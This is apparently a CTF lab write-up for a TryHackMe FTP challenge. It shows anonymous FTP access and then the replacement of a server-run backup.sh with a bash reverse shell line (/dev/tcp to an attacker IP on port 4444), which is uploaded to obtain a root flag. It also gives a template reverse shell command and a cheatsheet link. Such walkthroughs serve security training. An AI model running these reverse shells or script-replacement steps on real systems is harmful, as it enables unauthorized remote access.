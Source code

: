 ```yaml
---
description: Networking - FTP
---
```


# Anyone can be Santa!

## Video

{% embed url="https://www.youtube.com/watch?v=i-jqFYTPEV4" %}

## Resources

The standard for these two connections are the two ports:

* Port 20 \(Data\)
* Port 21 \(Commands\)

[pentesters cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)

`bash -i >& /dev/tcp/Your_TryHackMe_IP/4444 0>&1`

## Challenge

Name the directory on the FTP server that has data accessible by the "anonymous" user

```text
ftp 10.10.130.142
anonymous
ls
```

![](../.gitbook/assets/image%20%2855%29.png)

{% hint style="success" %}
public
{% endhint %}

What script gets executed within this directory?

```text
ftp 10.10.130.142
anonymous
ls
cd public
ls
```

![](../.gitbook/assets/image%20%2850%29.png)

{% hint style="success" %}
backup.sh
{% endhint %}

What movie did Santa have on his Christmas shopping list?

```text
ftp 10.10.130.142
anonymous
cd public
get shoppinglist.txt
quit
cat shoppinglist.txt
```

![](../.gitbook/assets/image%20%287%29.png)

{% hint style="success" %}
The Polar Express
{% endhint %}

Re-upload this script to contain malicious data \(just like we did in section **9.6**. Output the contents of /root/flag.txt!

Note that the script that we have uploaded may take a minute to return a connection. If it doesn't after a couple of minutes, double-check that you have set up a Netcat listener on the device that you are working from, and have provided the TryHackMe IP of the device that you are connecting from.

```text
ftp 10.10.130.142
anonymous
cd public
get backup.sh
```

![](../.gitbook/assets/image%20%2846%29.png)

```text
vi backup.sh

bash -i >& /dev/tcp/10.14.4.204/4444 0>&1
```

![](../.gitbook/assets/image%20%2815%29.png)

```text
put backup.sh
```

![](../.gitbook/assets/image%20%285%29.png)

{% hint style="success" %}

{% endhint %}

